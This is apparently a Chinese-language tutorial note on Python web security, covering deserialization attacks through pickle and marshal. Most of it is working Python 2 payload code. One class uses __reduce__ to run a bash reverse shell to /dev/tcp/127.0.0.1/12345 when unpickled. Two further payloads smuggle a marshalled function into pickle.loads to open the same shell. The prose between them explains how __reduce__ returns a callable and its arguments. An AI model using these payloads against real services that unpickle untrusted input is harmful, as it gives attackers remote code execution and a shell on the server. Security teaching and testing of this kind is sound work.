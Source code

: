 # python web 常见安全问题

## 0x01反序列化

json、pickle/cPickle,marshal，shelve，yaml


```
#!/usr/bin/env python
# encoding: utf-8
import os
import pickle
class test(object):
    def __reduce__(self):
        code='bash -c "bash -i >& /dev/tcp/127.0.0.1/12345 0<&1 2>&1"'
        return (os.system,(code,))
a=test()
c=pickle.dumps(a)
print c
pickle.loads(c)

```
构造的关键就是__reduce__函数，这个魔术方法的作用根据上面的文档简单总结如下：

    如果返回值是一个字符串，那么将会去当前作用域中查找字符串值对应名字的对象，将其序列化之后返回，例如最后return 'a',那么它就会在当前的作用域中寻找名为a的对象然后返回，否则报错。
    如果返回值是一个元组，要求是2到5个参数，第一个参数是可调用的对象，第二个是该对象所需的参数元组，剩下三个可选。所以比如最后return (eval,("os.system('ls')",))，那么就是执行eval函数，然后元组内的值作为参数，从而达到执行命令或代码的目的，当然也可以return (os.system,('ls',))。

pickle.loads对于未引入的module会自动尝试import。导致整个python标准库的代码执行。然而pickle不能序列化code对象，幸运的是从python2.6开始marshal模块支持code对象的序列化。
因此构造payload如下

```
import base64
import marshal

def foo():
    import os
    os.system('bash -c "bash -i >& /dev/tcp/127.0.0.1/12345 0<&1 2>&1"')

payload="""ctypes
FunctionType
(cmarshal
loads
(cbase64
b64decode
(S'%s'
tRtRc__builtin__
globals
(tRS''
tR(tR."""%base64.b64encode(marshal.dumps(foo.func_code))

pickle.loads(payload)

payload="""ctypes
FunctionType
(cmarshal
loads
(S'%s'
tRc__builtin__
globals
(tRS''
tR(tR."""%marshal.dumps(foo.func_code).encode('string-escape')

pickle.loads(payload)
```